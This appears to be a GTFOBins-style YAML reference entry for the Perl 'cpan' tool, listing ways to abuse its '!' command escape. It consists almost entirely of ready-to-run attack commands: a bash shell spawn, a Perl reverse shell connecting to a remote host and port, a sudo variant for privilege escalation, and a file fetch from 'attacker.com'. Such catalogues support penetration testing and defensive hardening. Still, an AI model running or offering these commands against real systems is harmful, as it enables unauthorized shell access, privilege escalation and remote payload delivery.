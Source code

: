 ```yaml
---
functions:
  shell:
    - description: cpan lets you execute perl commands with `! command`
      code: |
        cpan
        ! exec '/bin/bash'

  reverse-shell:
    - description: Run ``nc -lvp RPORT`` on the attacker box to receive the shell.
      code: |
        export RHOST=localhost
        export RPORT=9000
        cpan
        ! use Socket; my $i="$ENV{RHOST}"; my $p=$ENV{RPORT}; socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");};

  file-upload:
    - description: Serve files in the local folder running an HTTP server on port 8080. Install dependency via `cpan HTTP::Server::Simple`.
      code: |
        cpan
        ! use HTTP::Server::Simple; my $server= HTTP::Server::Simple->new(); $server->run();

  file-download:
    - description: Fetch a remote file via HTTP GET request and store it in PWD.
      code: |
        export URL=http://attacker.com/file_to_get
        cpan
        ! use File::Fetch; my $file = (File::Fetch->new(uri => "$ENV{URL}"))->fetch();

  sudo:
    - code: |
        sudo cpan
        ! exec '/bin/bash'

---
```

